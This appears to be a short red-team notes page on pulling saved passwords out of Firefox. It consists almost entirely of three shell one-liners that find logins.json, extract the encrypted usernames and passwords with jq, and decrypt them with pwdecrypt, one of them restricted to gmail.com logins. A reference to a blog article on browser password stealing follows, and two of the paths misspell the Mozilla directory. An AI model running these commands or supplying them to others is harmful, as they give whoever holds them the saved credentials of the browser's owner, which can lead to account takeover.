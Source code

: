 # Web Browsers

## 01 - Unix Shell

TODO: Fill this info

```
$ find -L ~/.mozila/firefox/<directory>.default-<esr | release> -name 'logins.json' \
-execdir sh -c 'jq '"'"'.logins | .[] | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

```
$ find -L ~/.mozila/firefox/<directory>.default-<esr | release> -name 'logins.json' \
-execdir sh -c 'jq '"'"'.logins | .[] | select(.hostname | endswith("gmail.com")) | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

```
$ find -L ~/.mozilla/firefox/*.default* -name 'logins.json' \
  -execdir sh -c 'jq '"'"'.logins | .[] | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

---
## References

- [RedTeamRecipe: Methods for Stealing Password in Browser](https://blog.redteamguides.com/methods-for-stealing-password-in-browser)